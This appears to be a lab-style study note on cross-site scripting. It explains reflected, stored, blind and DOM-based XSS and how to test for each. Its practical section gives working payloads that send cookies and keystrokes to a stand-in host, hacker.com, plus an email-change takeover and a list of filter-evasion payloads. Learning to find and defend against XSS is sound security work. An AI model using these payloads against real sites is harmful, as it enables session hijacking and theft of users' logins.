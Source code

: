 # XSS

Web applications can be vulnerable to **XSS (Cross-Site Scripting)** and defacement attacks if user inputs are not properly sanitized. XSS allows attackers to inject scripts, like JavaScript, that execute in victims' browsers, causing potential harm. Defacement alters the visual appearance of a website without executing code. Protect against these vulnerabilities by ensuring inputs are filtered and sanitized.

Executing arbitrary code on a victim's browser allows attackers to steal cookies, log keystrokes, or alter site appearance for phishing.

**Types of XSS Attacks**

1. **Stored XSS**: User input is saved on the website, like in user profiles or chats. Hackers can inject harmful code that affects anyone who visits the page. This is very dangerous as it affects many users without needing phishing.
2. **Reflected XSS**: User input is not stored but reflected back in web responses, often seen in search forms or URLs. Attackers trick users into clicking on malicious links, often requiring phishing.
3. **DOM-Based XSS**: Unlike stored and reflected, this affects the client side, using JavaScript to exploit vulnerabilities when dynamically rendering a page. It temporarily reflects user input, similar to reflected XSS.

## XSS Types

### Reflected

Reflected XSS happens when user-supplied data in an HTTP request is included in the webpage source without any validation.

#### Testing for Refrected XSS:

You'll need to test **every possible point** of entry; these include:

* **Parameters** in the URL Query String
* URL File **Path**
* Sometimes **HTTP Headers** (although unlikely exploitable in practice)



### Stored

The XSS payload is saved on the web application, like in a database, and gets executed when other users visit the site or page.

<details>

<summary>Example Scenario</summary>

A blog site lets users post comments, but it doesn't check for harmful JavaScript. If you post a comment with JavaScript, it's stored in the database, and any user visiting the article will have that JavaScript run on their browser. This is risky because the JavaScript could redirect users to another site, steal session cookies, or perform actions on the site pretending to be the user.\
\
Developers often rely on client-side restrictions to protect input values. However, changing values to unexpected ones can reveal vulnerabilities, like stored XSS. For instance, if an age field expects an integer from a dropdown, you can manually send a request to test with malicious inputs.

</details>

#### Testing for Stored XSS:

You'll need to test every possible point of entry where it seems data is stored and then shown back in areas that other users have access to; a small example of these could be:

* Comments on a blog
* User profile information
* Website Listings



### Blind XSS

**Blind XSS** works like stored XSS because your script is saved on the site for others to see. However, you can't view or test it yourself before it affects another user.

<details>

<summary>Example Scenario</summary>

A website has a contact form to message staff. The form doesn't check for harmful code, allowing attackers to enter anything. These messages turn into support tickets for staff in a private portal.\
\
An attacker can use JavaScript to send information back to their website. This could reveal the staff portal's URL, the staff member's cookies, and the contents of the portal page. With this information, the attacker could hijack the staff member's session and access the private portal.

</details>

#### Testing for Blind XSS

When testing for Blind XSS vulnerabilities, you need to ensure your payload has a call back (usually an HTTP request). This way, you know if and when your code is being executed.

A popular tool for Blind XSS attacks is [XSS Hunter Express](https://github.com/mandatoryprogrammer/xsshunter-express). Although it's possible to make your own tool in JavaScript, this tool will automatically capture cookies, URLs, page contents and more.



### DOM Based

DOM Based XSS is where the JavaScript execution happens directly in the browser without any new pages being loaded or data submitted to backend code. Execution occurs when the website JavaScript code acts on input or user interaction.

<details>

<summary>Example Scenario</summary>

The website's JavaScript gets the contents from the `window.location.hash` parameter and then writes that onto the page in the currently being viewed section. The contents of the hash aren't checked for malicious code, allowing an attacker to inject JavaScript of their choosing onto the webpage.

</details>

#### Testing for DOM Based XSS:

DOM Based XSS can be challenging to test for and requires a certain amount of knowledge of JavaScript to read the source code. You'd need to look for parts of the code that access certain variables that an attacker can have control over, such as "**`window.location.x`**" parameters.

When you've found those bits of code, you'd then need to see how they are handled and whether the values are ever written to the web page's DOM or passed to unsafe JavaScript methods such as `eval()`.



## Practical XSS

### Session Stealing

To steal a user's session, a hacker can use JavaScript to grab the user's cookies, encode them in base64 for safe transfer, and send them to a controlled website. With these cookies, the hacker can impersonate the user and access their session.

```javascript
<script>fetch('https://hacker.com/steal?cookie=' + btoa(document.cookie));</script>
<img src="https://hacker.com/steal?cookie=' + btoa(document.cookie)'" />
```

### Key Logger

The code below is a key logger. It sends everything you type on a website to a hacker's site. This is dangerous if the site collects logins or payment information.

{% code overflow="wrap" %}
```javascript
<script>document.onkeypress = function(e) { fetch('https://hacker.com/log?key=' + btoa(e.key) );}</script>
```
{% endcode %}

### Business Logic

Here's a more detailed example than before. This involves calling a network resource or a JavaScript function. For instance, to change a user's email, you might have a function like `user.changeEmail()`. Your payload might look like this:

```javascript
<script>user.changeEmail('attacker@hacker.thm');</script>
```

Now that the email address for the account has changed, the attacker may perform a reset password attack.



## XSS Payloads

```
<script>alert(1);</script>
"><script>alert(1);</script>
</textarea><script>alert(1);</script> 
</script><script>alert(1);</script>
<sscriptcript>alert(1);</sscriptcript>
" onload="alert(1);
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```
